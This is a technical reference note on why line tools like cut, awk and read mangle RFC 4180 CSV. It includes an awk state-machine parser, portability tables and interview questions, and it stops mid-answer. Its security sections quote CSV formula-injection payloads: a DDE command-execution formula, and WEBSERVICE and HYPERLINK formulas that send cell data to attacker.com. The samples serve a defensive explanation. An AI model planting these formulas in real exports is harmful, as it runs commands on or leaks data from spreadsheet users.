

# CSV Quoting and Edge Cases

> [!summary] Claim
> Line-oriented Unix text utilities break catastrophically on RFC 4180 CSV because CSV records are multi-line recursive grammars rather than newline-delimited byte streams.

Part of [Structured Data and HTTP](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: RFC 4180 defines fields enclosed in double quotes that can contain literal commas, embedded newlines, and escaped doubled double quotes.
- Rule: Never use `cut`, `awk -F,`, `sed`, or `IFS=, read -r` to process untrusted CSV files in shell pipelines.
- Trap: Unquoted line-oriented tools silently split multi-line fields into corrupted phantom records and accumulate trailing `\r` bytes from CRLF line endings into variable values.
- Portability fact: Standard POSIX utilities lack quote-aware parsing entirely; only GNU Awk 5.3+ (`gawk --csv`) and Brian Kernighan's One True Awk (second edition, September 2023, `--csv`) implement native RFC 4180 parsing in the standard utility toolchain; macOS `awk` (One True Awk 20200816, as of 2026-11) predates it.
- When not to use it: Stop processing raw CSV in shell scripts whenever fields contain user input, multi-line text, or numeric values with significant leading zeroes; ingest directly into SQLite or DuckDB instead.

## Mental model



In an RFC 4180 parser, input characters are processed through a two-level finite state machine that decouples lexical field boundary scanning from physical line terminators.
At the start of each field (`RecordStart`), an opening double quote shifts the scanner into `InQuotedField`, where literal commas and newlines (CR, LF, or CRLF) are accumulated into the active field buffer without triggering field or record completion.
When a double quote appears inside a quoted field, the scanner enters `QuoteInQuoted` to inspect the subsequent character: a second adjacent quote appends a literal double quote to the field buffer and returns to `InQuotedField`, whereas a comma or newline completes the field or record respectively.
Because multi-line records remain in `InQuotedField` across physical newline boundaries, line-oriented Unix utilities that split unconditionally on `0x0A` slice records apart and desynchronize column indices for all downstream operations.

## How it works

The comma-separated values format was formalized in RFC 4180 Section 2 as an informational specification.
The formal ABNF grammar defines a CSV file as an optional header followed by records separated by CRLF (`0x0D 0x0A`):
`file = [header CRLF] record *(CRLF record) [CRLF]`
`record = field *(COMMA field)`
`field = (escaped / non-escaped)`
`escaped = DQUOTE *(TEXTDATA / COMMA / CR / LF / 2DQUOTE) DQUOTE`
`non-escaped = *TEXTDATA`
`COMMA = %x2C`
`DQUOTE = %x22`
`TEXTDATA = %x20-21 / %x23-2B / %x2D-7E`

RFC 4180 specifies seven foundational rules:
1. Records are separated by line breaks (CRLF).
2. The final record may omit the trailing line break.
3. An optional header line matching record field count may precede data records.
4. Fields are separated by commas, spaces are considered data, and the final field must not have a trailing comma.
5. Fields may be enclosed in double quotes.
6. Fields containing line breaks (CRLF), double quotes, or commas should be enclosed in double quotes (RFC 4180 says "should", not "must").
7. A double quote inside a quoted field must be escaped by preceding it with another double quote (`""`).

This specification directly conflicts with the foundational Unix model of text processing.
POSIX.1-2024 defines a line in `(POSIX.1-2024 XBD 3.185 Line)` as a sequence of zero or more non-<newline> characters plus a terminating <newline> character.
POSIX.1-2024 defines a text file in `(POSIX.1-2024 XBD 3.387 Text File)` as a file that contains characters organized into zero or more lines.
These lines do not contain NUL characters and none can exceed {LINE_MAX} bytes in length, including the <newline> character.

Every traditional Unix text utility operates strictly on this POSIX line model.
In GNU Coreutils `src/cut.c` (master, as of 2026-11), the function `cut_fields_bytesearch` executes a single-pass byte scan over a static `bytes_in[IO_BUFSIZE+1]` input buffer.
Its helper `find_field_terminator` uses `memchr` to find the line delimiter (`\n`) and `find_field_delim` to find the user-specified delimiter (`memchr` for a single byte such as `,`, `memmem` or `strstr` for a multibyte delimiter); `memchr2` appears only in `find_c_blank`, for blank-delimited fields.
When `cut` encounters a comma, `handle_field_delimiter` advances `field_idx` and decides whether to write the next field to standard output based on user field arguments.
When `cut` encounters `\n`, it outputs the record delimiter and `reset_field_line` sets `field_idx = 1`.
The implementation maintains zero parser state regarding quotation marks.
If an RFC 4180 quoted field contains `"Smith, Jr.",42`, `cut -d, -f1` outputs `"Smith` because the comma within quotes is indistinguishable from a column separator.
If an RFC 4180 field contains an embedded newline, `cut` resets its field counter mid-record, causing subsequent lines of the same record to be misidentified as new records.

Shell built-in field splitting suffers from identical structural limitations.
In POSIX shells, reading data with `IFS=, read -r col1 col2 remainder` relies on two distinct mechanisms: line reading and field splitting.
The `read` utility `(POSIX.1-2024 XCU 4 read)` issues `read(2)` calls to collect bytes until an unescaped `<newline>` appears in the stream.
Once a newline is reached, the shell applies field splitting `(POSIX.1-2024 XCU 2.6.5 Field Splitting)` using the characters in `IFS`.
Because double quotes are not syntactic grouping operators during parameter expansion or field splitting, the shell treats a comma inside quotes as a field boundary.
Furthermore, because RFC 4180 mandates CRLF line endings, the terminating carriage return (`\r` / `0x0D`) is not recognized as part of the POSIX `<newline>` sequence (`0x0A`).
The carriage return remains attached to the final variable read from the line, silently corrupting equality comparisons and producing terminal display overwrites.

The `awk` utility `(POSIX.1-2024 XCU 4 awk)` splits input into records using the record separator variable `RS` (defaulting to `<newline>`), and then splits each record into fields using `FS` (defaulting to space/tab).
POSIX awk has no concept of quoted fields.
Regular expression field splitting extensions such as GNU awk's `FPAT` (`FPAT = "([^,]+)|(\"([^\"]|\"\")*\")"`) can parse quoted fields on a single line, but fail on multi-line fields because record splitting across `RS` occurs before `FPAT` tokenization is invoked.
To resolve this decades-old limitation, Brian Kernighan added native CSV parsing via `--csv` to the One True Awk (BWK awk) with the second edition of The AWK Programming Language, published September 2023 (the `FIXES` file of the One True Awk source, mirrored in FreeBSD `contrib/one-true-awk`; its reader is `readcsvrec` in `lib.c`).
GNU Awk followed in version 5.3.0 (tarball dated 2023-11-02 on ftp.gnu.org), introducing `-k` and `--csv`.
When invoked with `--csv`, `gawk` bypasses `RS`, `FS`, `FPAT`, and `FIELDWIDTHS` entirely; assigning to them prints `warning: assignment to FS/FIELDWIDTHS/FPAT has no effect when using --csv` (measured with gawk 5.4.2).
The internal scanner reads data stream buffers directly, maintaining quotation state across physical newlines and exposing `PROCINFO["CSV"]` to the script.
Both awks also rewrite every CRLF to LF, even inside a quoted field: the field `"x<CR><LF>y"` comes back as `x<LF>y` from gawk 5.4.2 and One True Awk 20250116 (measured), whereas `sqlite3` and `duckdb` keep the embedded CR.

## Numbers and limits

The following limits govern CSV processing, line-oriented Unix utilities, and spreadsheet applications.

| Parameter or Boundary | Value | Specification or Source | Practical Impact |
|---|---|---|---|
| POSIX Minimum Line Max (`{_POSIX2_LINE_MAX}`) | 2048 bytes | `(POSIX.1-2024 XBD <limits.h>)` | Minimum line length guaranteed for standard text utilities. |
| Linux Runtime Line Max (`LINE_MAX`) | 2048 bytes | `getconf LINE_MAX` (Debian 13, glibc 2.41, measured 2026-11) | A longer line makes the input not a POSIX text file, so a conforming utility may truncate or reject it. |
| macOS Runtime Line Max (`LINE_MAX`) | 2048 bytes | `getconf LINE_MAX` (macOS 27.3, measured 2026-11) | Same text-file bound; portable scripts cannot rely on longer lines being handled. |
| GNU coreutils `cut` I/O Buffer (`IO_BUFSIZE`) | 262,144 bytes (256 KiB) | GNU coreutils `src/ioblksize.h`, `IO_BUFSIZE = 256 * 1024` (master, as of 2026-11) | Size of the static `bytes_in` buffer that `cut_fields_bytesearch` fills per `read(2)`. |
| POSIX Atomic Pipe Buffer (`PIPE_BUF`) | 4096 bytes (Linux), 512 bytes (macOS) | `getconf PIPE_BUF /`, measured in the shell matrix; `(POSIX.1-2024 XBD <limits.h>)` | Pipeline writes larger than this can interleave when piped to parsers; ksh93u+m 1.0.10 joins pipeline stages with sockets, so `PIPE_BUF` atomicity does not carry over unchanged there. |
| RFC 4180 Maximum Field Length | Unbounded | RFC 4180 Section 2 (2005) | Streaming parsers without memory caps can be crashed via memory exhaustion. |
| RFC 4180 Maximum Fields Per Record | Unbounded | RFC 4180 Section 2 (2005) | Wide CSV rows can exhaust stack or array limits in naive scripts. |
| Microsoft Excel Maximum Cell Length | 32,767 characters | [Microsoft Excel specifications and limits](https://support.microsoft.com/en-us/office/excel-specifications-and-limits-1672b34d-7043-467e-8e27-269d656771c3) (as of 2026-11) | Fields exceeding this limit are truncated when opened in Excel. |
| Microsoft Excel Maximum Row Limit | 1,048,576 rows (`2^20`) | Microsoft Excel specifications and limits (as of 2026-11) | CSV exports exceeding this row count silently drop data in Excel. |
| Microsoft Excel Maximum Column Limit | 16,384 columns (`2^14`) | Microsoft Excel specifications and limits (as of 2026-11) | Wide CSV records spanning more columns fail import. |
| Google Sheets Maximum Cell Limit | 20 million cells (or 100 MB) | [Google Drive Help: Files you can store in Google Drive](https://support.google.com/drive/answer/37603), spreadsheets created in or converted to Google Sheets (as of 2026-11) | Total worksheet capacity bounds bulk CSV ingestion. |
| UTF-8 Byte Order Mark (BOM) Length | 3 bytes (`0xEF 0xBB 0xBF`) | RFC 3629 Section 6 (U+FEFF encoded in UTF-8) | Corrupts first column header if not stripped before processing. |
| UTF-16LE Byte Order Mark (BOM) Length | 2 bytes (`0xFF 0xFE`) | RFC 2781 Section 3.2 (U+FEFF in little-endian UTF-16) | Excel's "Unicode Text (*.txt)" save option writes UTF-16LE with this BOM (byte dump in [Herong Yang, Unicode tutorial](https://herongyang.com/Unicode/Excel-Save-File-in-Unicode-Text-txt.html)); treated as binary by Unix tools. |

## Portability

The table below contrasts CSV handling mechanisms across shells, core utilities, and structured data engines.
The shell rows follow from `read` and field splitting rules `(POSIX.1-2024 XCU 2.6.5 Field Splitting)`, which give `"` no meaning in `IFS` splitting and never treat CR as a line terminator; versions are those of the shell matrix (Debian 13 and Alpine images plus the macOS host, as of 2026-11).
The lab's two `naive-cut` tests and its `naive-read` test prove the comma and multi-line cells for `cut` and the CR cell for the shell running Bats.
The awk and engine rows were measured by hand (as of 2026-11) on a CRLF file with a quoted embedded CRLF and a doubled quote: gawk 5.4.2, One True Awk 20250116, sqlite3 3.54.0 (`.import --csv`), and duckdb 2.0.1 (`read_csv`); the Miller row rests on the [Miller file-formats documentation](https://miller.readthedocs.io/en/latest/file-formats/) and was not run.

| Shell or Utility | Embedded Commas in Quotes | Multi-Line Quoted Records | Doubled Quote (`""`) Unescaping | Trailing `\r` from CRLF Stripped | Native RFC 4180 Support |
|---|---|---|---|---|---|
| POSIX sh (`IFS=, read -r`) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| macOS bash 3.2 (`read -r`) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| GNU bash 5.2.37 (`read -r`) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| zsh 5.9 (native) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| zsh 5.9 (`--emulate sh`) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| dash 0.5.12 | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| ksh93u+m 1.0.10 | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| mksh R59 | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| yash 2.58.1 | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| posh 0.14.1 | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| BusyBox 1.37.0 ash | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | No (leaves `\r` on final field) | No |
| GNU coreutils `cut` | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | Retains `\r` on last field | No |
| BSD / macOS `cut` | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | Retains `\r` on last field | No |
| BusyBox `cut` | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | Retains `\r` on last field | No |
| POSIX awk (mawk 1.3.4, macOS awk 20200816, BusyBox awk) | Corrupts (splits on comma) | Corrupts (splits on newline) | No (preserves literal quotes) | Retains `\r` in `$NF` | No |
| GNU awk 5.3+ (`--csv`) | Supported | Supported | Supported | Supported (auto-stripped; also inside quotes) | Full |
| One True Awk (BWK 2023+ `--csv`) | Supported | Supported | Supported | Supported (auto-stripped; also inside quotes) | Full |
| `sqlite3` (`.mode csv`) | Supported | Supported | Supported | Supported (auto-stripped) | Full |
| `duckdb` (`read_csv`) | Supported | Supported | Supported | Supported (auto-stripped) | Full |
| Miller (`mlr --csv`) | Supported | Supported | Supported | Supported (auto-stripped) | Full |

## Worked example

The test script below from [lab](../labs/09-csv-quoting-and-edge-cases/) implements a pure POSIX awk finite state machine that parses RFC 4180 CSV, handles embedded commas, embedded newlines, doubled double quotes, and CRLF line endings, alongside naive reference probes.

```sh
#!/bin/sh
# csv-tool.sh - CSV parsing, edge-case demonstration, and sanitization
# Demonstrates RFC 4180 state-machine parsing vs naive Unix line tools.

set -eu

usage() {
  printf 'Usage: %s <naive-cut|naive-read|parse-fsm|sanitize|strip-bom> [file]\n' "$0" >&2
  exit 1
}

[ "$#" -ge 1 ] || usage
mode="$1"
shift

# Read from specified file or standard input
input="${1:-/dev/stdin}"

case "$mode" in
  naive-cut)
    # Naive extraction of first two fields using cut
    # Fails when fields contain embedded commas or newlines
    cut -d, -f1,2 "$input"
    ;;

  naive-read)
    # Naive line-oriented shell loop with IFS=,
    # Fails on embedded commas, multi-line records, and leaves \r on CRLF
    while IFS=, read -r col1 col2 remainder; do
      printf 'col1=[%s] col2=[%s] rem=[%s]\n' "$col1" "$col2" "$remainder"
    done <"$input"
    ;;

  parse-fsm)
    # Pure POSIX awk finite state machine implementing RFC 4180 parsing
    # Handles:
    # 1. Comma delimiters outside quotes
    # 2. Quoted fields containing literal commas
    # 3. Quoted fields containing literal newlines (CR, LF, CRLF)
    # 4. Escaped double quotes represented as two adjacent double quotes ("")
    # 5. CRLF line endings (strips CR before LF at record end)
    # Outputs each record on a single line with fields enclosed in <...>
    awk '
      BEGIN {
        state = 0 # 0: field start / unquoted, 1: inside quoted field
        field = ""
        nfields = 0
      }
      {
        line = $0
        len = length(line)
        for (i = 1; i <= len; i++) {
          c = substr(line, i, 1)
          if (state == 0) {
            if (c == "\"") {
              state = 1
            } else if (c == ",") {
              nfields++
              fields[nfields] = field
              field = ""
            } else if (c == "\r") {
              # Ignore trailing CR before record newline
            } else {
              field = field c
            }
          } else if (state == 1) {
            if (c == "\"") {
              # Lookahead for doubled quote
              if (i < len && substr(line, i + 1, 1) == "\"") {
                field = field "\""
                i++
              } else {
                state = 0
              }
            } else {
              field = field c
            }
          }
        }
        if (state == 1) {
          # Embedded newline inside quoted field
          field = field "\n"
        } else {
          # End of record
          nfields++
          fields[nfields] = field
          field = ""
          # Emit record
          printf "%d fields:", nfields
          for (k = 1; k <= nfields; k++) {
            printf " <%s>", fields[k]
          }
          printf "\n"
          nfields = 0
        }
      }
      END {
        if (state == 1) {
          printf "ERROR: unclosed quote at end of input\n" > "/dev/stderr"
          exit 2
        }
      }
    ' "$input"
    ;;

  sanitize)
    # Neutralize CSV formula injection (CWE-1236)
    # Prefixes formula-triggering characters (=, +, -, @, tab, CR) with single quote
    # Wraps fields in RFC 4180 double quotes, escaping existing double quotes as ""
    awk -F, '
      function sanitize_cell(cell) {
        # Check if first character triggers formula execution
        first = substr(cell, 1, 1)
        if (first == "=" || first == "+" || first == "-" || first == "@" || first == "\t" || first == "\r") {
          # \047 is a single quote; POSIX awk defines octal escapes, not \x
          cell = "\047" cell
        }
        # Escape any internal double quotes by doubling them
        gsub(/"/, "\"\"", cell)
        return "\"" cell "\""
      }
      {
        # Split line by comma for demo sanitization of unquoted tokens
        out = ""
        for (i = 1; i <= NF; i++) {
          sc = sanitize_cell($i)
          out = (i == 1) ? sc : (out "," sc)
        }
        print out
      }
    ' "$input"
    ;;

  strip-bom)
    # Detect and remove UTF-8 Byte Order Mark (0xEF 0xBB 0xBF)
    # LC_ALL=C makes substr count bytes: in a UTF-8 locale gawk and the
    # One True Awk count the BOM as one character and never match it
    LC_ALL=C awk '
      NR == 1 {
        # Match leading 3-byte UTF-8 BOM (octal escapes are POSIX)
        if (substr($0, 1, 3) == "\357\273\277") {
          $0 = substr($0, 4)
        }
      }
      { print }
    ' "$input"
    ;;

  *)
    usage
    ;;
esac
```

When given input containing embedded commas, a multi-line field, and an escaped quote:

```csv
"Smith, John",30,Engineer
1,"first line
second line",done
"He said, ""Hello!""",accepted
```

Running `csv-tool.sh parse-fsm` yields the exact captured output (run once on the macOS host, awk version 20200816, 2026-11; `naive-cut` below is from the same run):

```text
3 fields: <Smith, John> <30> <Engineer>
3 fields: <1> <first line
second line> <done>
2 fields: <He said, "Hello!"> <accepted>
```

In contrast, running `csv-tool.sh naive-cut` on the identical payload yields:

```text
"Smith, John"
1,"first line
second line",done
"He said, ""Hello!"""
```

In the naive output, row 1 loses its real second and third fields (`30` and `Engineer`) because `cut` split on the comma inside `"Smith, John"` and returned the two halves of that one field.
In row 2, the multi-line field is broken across lines: the second line `second line",done` is misparsed as an independent row, shifting columns and corrupting downstream consumers.

## Pitfalls

> [!warning] Naive field extraction via cut or basic awk
> Trigger: Piping CSV files containing quoted fields with embedded commas or newlines into `cut -d,` or `awk -F,`.
> Symptom: Fields shift into adjacent columns, multi-line records fracture into corrupt phantom lines, and row counts in downstream databases mismatch raw file record counts.
> Incident: In October 2020, Public Health England failed to report 15,841 positive COVID-19 cases because its pipeline loaded the labs' CSV files into legacy Microsoft Excel `.xls` templates limited to 65,536 rows, silently truncating case reports ([BBC News, 2020-10-05](https://www.bbc.com/news/technology-54423988)); the CSV files were fine, which makes it the mirror image of this pitfall: a tool that does not honor the data's real record count drops data without an error.
> Fix: Replace `cut` and basic `awk` with dedicated structured parsers such as `gawk --csv`, `mlr --csv`, or `sqlite3 -csv`.

> [!warning] Silent carriage return retention in shell read loops
> Trigger: Reading RFC 4180 compliant CSV files with CRLF line endings using `while IFS=, read -r col1 col2; do ...`.
> Symptom: String comparisons such as `[ "$col2" = "active" ]` silently fail because `$col2` contains `"active\r"`.
> Terminal logs overwrite earlier characters on the same line when printed via `printf '%s\n' "$col2"`.
> Fix: Strip carriage returns prior to reading via `tr -d '\r' < input.csv`, which works in every shell.
> Adding CR to the separator (`IFS=$',\r'`) strips the trailing `\r` from the last variable in bash 5.2.37, dash 0.5.12, ksh93u+m 1.0.10, mksh R59, yash 2.58.1, and BusyBox 1.37.0 ash, but zsh 5.9 and posh 0.14.1 still leave it attached (measured in the shell matrix, 2026-11), so it is not a portable fix.

> [!warning] Column header corruption by UTF-8 Byte Order Mark
> Trigger: Ingesting CSV files exported by Microsoft Excel or Windows applications that prepend a 3-byte UTF-8 BOM (`0xEF 0xBB 0xBF`).
> Symptom: The first column header name is read as `\xef\xbb\xbfid` instead of `id`.
> Schema validation scripts fail with unknown column errors or skip the first column during database loads.
> Fix: Strip the BOM at the pipeline ingress via `sed '1s/^\xef\xbb\xbf//'` (GNU sed and macOS sed both accept `\xHH`, measured; POSIX sed does not define it) or `LC_ALL=C awk 'NR==1{sub(/^\357\273\277/,"")}1'`.
> Keep `LC_ALL=C` and the octal escapes: in a UTF-8 locale One True Awk 20250116 leaves the BOM in place, and gawk's `substr($0, 1, 3)` counts the BOM as one character (measured).

> [!warning] Whole-file record absorption from unbalanced quotes
> Trigger: A network truncation, disk-full condition, or software defect omitting a closing double quote on a field.
> Symptom: An RFC 4180 state machine consumes all subsequent records into a single multi-gigabyte string until the next quote or EOF.
> The parser crashes with out-of-memory errors or silently outputs a single garbled record.
> Fix: Run a pre-flight quote parity validation before ingestion; in streaming parsers, enforce a hard limit on single-field buffer accumulation.

> [!warning] Formula injection and remote code execution via spreadsheet import
> Trigger: Exporting untrusted user input (such as account names or issue titles) starting with `=`, `+`, `-`, `@`, `\t`, `\r`, or `\n` (the OWASP list) into CSV files opened by business users in Microsoft Excel or LibreOffice Calc.
> Symptom: Spreadsheet applications interpret the text as active formulas.
> Attackers execute arbitrary operating system commands via Dynamic Data Exchange (DDE) formulas like `=cmd|'/C calc'!A0` or exfiltrate private worksheet data via `=WEBSERVICE("https://attacker.com/leak?data=" & A1)`.
> Security Advisory: Disclosed in CVE-2014-3524 (NVD, published 2014-08-26): "Apache OpenOffice before 4.1.1 allows remote attackers to execute arbitrary commands and possibly have other unspecified impact via a crafted Calc spreadsheet."
> LibreOffice Calc is affected by the same CVE: its advisory (announced 2014-08-21) says the flaw allows command injection when loading Calc spreadsheets under Windows, fixed in LibreOffice 4.2.6-secfix and 4.3.1, and that other operating systems are not affected ([LibreOffice advisory CVE-2014-3524](https://www.libreoffice.org/about-us/security/advisories/cve-2014-3524)).
> Cataloged as CWE-1236 (Improper Neutralization of Formula Elements in a CSV File).
> Fix: Prepend a single quote (`'`) to any field starting with formula-initiating characters (`=`, `+`, `-`, `@`, `\t`, `\r`, `\n`) before enclosing the field in RFC 4180 double quotes, or reject non-alphanumeric leading characters at the API boundary.

> [!warning] Silent truncation of leading zeroes and automated date coercion
> Trigger: Storing identifier strings with leading zeroes (such as postal codes `01234` or bank routing numbers) or hyphenated codes (such as `1-2`) in CSV files opened by spreadsheet software.
> Symptom: Excel coerces `"01234"` to numeric integer `1234` and coerces `1-2` to a calendar date: on Microsoft's own US English test machine, `1-2` typed into a cell became `2-Jan` ([Microsoft Scripting Guy, 2008-06-28](https://devblogs.microsoft.com/scripting/hey-scripting-guy-how-can-i-prevent-office-excel-from-turning-my-imported-numbers-into-dates/)); the result depends on the machine's locale.
> Data re-exported from the spreadsheet is permanently corrupted.
> Fix: In CSV generated for spreadsheet consumption, format identifier fields as explicit formula strings `="01234"`, or export directly to typed container formats such as SQLite, DuckDB, or Apache Parquet.

## Security and robustness

CSV files are frequently treated as passive text files, but when consumed by automated tools or spreadsheet applications, unescaped CSV represents a severe attack surface.
CWE-1236 ("Improper Neutralization of Formula Elements in a CSV File") classifies vulnerabilities where applications generate CSV records from untrusted input without escaping formula-initiating characters.
When spreadsheet programs such as Microsoft Excel, LibreOffice Calc, or Google Sheets open a CSV, any cell beginning with `=`, `+`, `-`, `@`, `0x09` (horizontal tab), `0x0D` (carriage return), or `0x0A` (line feed) is executed as an expression ([OWASP CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)); OWASP also lists full-width variants such as `\uFF1D` in some locales.

Exploitation manifests across three primary attack vectors:
1. Arbitrary Process Execution: In CVE-2014-3524, attackers leveraged Dynamic Data Exchange (DDE) formulas in Calc (illustrative form `=DDE("cmd";"/C calc.exe";"")`; NVD gives no formula) to spawn system shells with the privileges of the desktop user upon opening the file.
2. Sensitive Data Exfiltration: Attackers embed formulas such as `=HYPERLINK("https://attacker.com/log?leak=" & A2, "Click to Verify")` or `=WEBSERVICE("https://attacker.com/exfil/" & A2)` to transmit adjacent cell data (such as API keys, salary figures, or passwords) to an external server.
3. Denial of Service: Deeply nested formulas or recursive calculations can exhaust system memory or lock spreadsheet rendering engines.

To build robust, production-grade CSV generation pipelines:
- Strictly sanitize untrusted fields: If the first character of a string field is any of `=`, `+`, `-`, `@`, `\t`, `\r`, or `\n`, prepend a single quote (`'`) before applying standard RFC 4180 double-quote encapsulation.
  OWASP warns that Excel can drop that quote when the file is saved and reopened, and gives a tab prefix inside the quoted field (`"\t=1+2"`) as the Excel-resistant alternative, at the cost of altering the data for programmatic consumers.
  OWASP also warns that checking only the first character is not enough: embedded separators (`,`, `;`) and quotes can start a new cell mid-string, so always quote and escape the whole field.
- Properly escape internal quotes: Double every literal double quote character (`"` becomes `""`) rather than using C-style backslashes (`\"`), which RFC 4180 parsers reject or treat as literal text data.
- Enforce strict parser bounds: In streaming consumers, establish maximum field buffer allocations (such as 1 MiB) to terminate parsing with a fatal exit code if an unclosed quote triggers memory ballooning.

## The principal's view

Staff-plus engineers recognize that CSV is not a database, an interchange protocol, or an event bus; it is an ambiguous, untyped wire format of last resort.
The primary design failure of CSV is in-band signaling: delimiter bytes, quotation marks, line breaks, and payload data all share the identical 8-bit byte stream without framing headers or length prefixes.
When Unix pipelines attempt to process CSV with line-oriented tools, they impose a false architectural assumption that records map one-to-one to POSIX lines.

The principal engineer establishes four non-negotiable rules for structured tabular data:
1. Isolate CSV at the system boundary: Never allow raw CSV to flow through internal microservice pipelines or multi-stage shell scripts.
The ingestion ingress must immediately parse CSV into a typed, framed format (such as Apache Parquet, SQLite, DuckDB, or JSON Lines with JSON Schema) before any business logic, filtering, or transformation runs.
2. Banish ad-hoc shell parsing: Reject pull requests that attempt to slice CSV using `cut`, `awk -F,`, `sed`, or bash `read` loops.
Writing a custom CSV parser in shell is technical debt that will fail as soon as an edge case (an embedded comma, an address with an apartment newline, or a Windows CRLF file) hits production.
3. Require explicit dialect contracts: If an external partner or legacy system requires CSV export, mandate an unambiguous contract specifying character encoding (UTF-8 without BOM), record delimiter (LF vs CRLF), quoting policy (minimal vs all-quoted), and formula character sanitization.
4. Default to self-describing structured engines: For shell-level data manipulation, mandate tools built on real relational engines, such as `duckdb` or `sqlite3`, or structured stream processors such as `mlr` (Miller) and `qsv`.

## Interview questions

> [!question] L5: Given a CSV file where lines terminate in CRLF (`\r\n`), predict the exact output of running `while IFS=, read -r a b; do [ "$b" = "prod" ] && echo match; done < input.csv`.
>
> > [!success]- Answer
> > The script prints nothing and fails to match any record.
> > POSIX `read` strips only the terminating newline (`0x0A`), leaving the carriage return (`\r` / `0x0D`) attached to the end of variable `b`.
> > The comparison evaluates `[ "prod\r" = "prod" ]`, which is false for every row.
> > The bug is fixed portably by stripping carriage returns prior to reading with `tr -d '\r'`.
> > Setting `IFS=$',\r'` also works in bash, dash, ksh93, mksh, yash, and BusyBox ash, but zsh 5.9 and posh 0.14.1 keep the `\r` on `b` (measured in the shell matrix, 2026-11).
> >
> > Follow-up: How does printing `"$b"` to a physical terminal hide this bug during interactive debugging?

> [!question] L5: What does `cut -d, -f1,2` output when given the single input line `"Smith, Jr.",42,Admin`?
>
> > [!success]- Answer
> > It outputs `"Smith, Jr."`.
> > The `cut` utility possesses no quotation state machine and treats every comma as an unconditional delimiter.
> > Field 1 is evaluated as `"Smith`, field 2 is evaluated as ` Jr."`, and field 3 is evaluated as `42`.
> > The user requested fields 1 and 2, so `cut` reconstructs them with the delimiter, completely dropping the true second field `42`.
> >
> > Follow-up: How would you extract the true second column (`42`) using standard tools on modern Linux systems?

> [!question] L6: Debug this script: identify three distinct edge-case failure modes in `cat export.csv | while IFS=, read -r id name status; do echo "User $id: $name ($status)"; done`.
>
> > [!success]- Answer
> > First, if any field contains an embedded comma (such as `"Doe, Jane"`), the name field is split across variables, assigning the surname to `name` and the remainder to `status`.
> > Second, if any field contains an embedded newline, `read` terminates prematurely, treating the second line of the field as an entirely separate record with missing columns.
> > Third, if the file originates from Windows or Excel with CRLF line endings, variable `status` contains a trailing `\r`, corrupting subsequent string formatting and terminal output.
> > An additional defect is the useless use of `cat` creating an unnecessary pipeline; in bash (without `shopt -s lastpipe`), dash, mksh, and BusyBox ash the `while` loop then runs in a subshell where variable mutations cannot survive into the parent shell, while ksh93 and zsh run the last pipeline stage in the current shell.
> >
> > Follow-up: Rewrite this pipeline using `duckdb` or `sqlite3` to ensure transactional correctness.

> [!question] L6: Explain how GNU Awk 5.3's `--csv` mode alters internal record and field splitting compared to traditional `RS` and `FS` processing.
>
> > [!success]- Answer
> > When invoked with `--csv`, `gawk` disables traditional `RS` and `FS` record and field splitting entirely.
> > Records are terminated only by unquoted newlines (CRLF or LF), allowing quoted fields to safely span multiple physical lines.
> > Fields are separated exclusively by commas outside double quotes.
> > Internal doubled double quotes (`""`) are automatically unescaped to a single literal quote character, and enclosing quotes are stripped from `$1` through `$NF`.
> > Assigning to `RS`, `FS`, `FPAT`, or `FIELDWIDTHS` inside the script generates a runtime warning and has no effect on parsing.
> >
> > Follow-up: How does the two-argument form of `split()` behave differently under `gawk --csv`?

> [!question] L6: When a downstream SQL import pipeline reports 'ERROR: column "\xef\xbb\xbfuser_id" does not exist' on the first line of an ingested CSV, what is the root cause and how do you fix it with portable shell tools?
>
> > [!success]- Answer
> > The CSV file was exported with a UTF-8 Byte Order Mark (BOM), consisting of the 3-byte sequence `0xEF 0xBB 0xBF`.
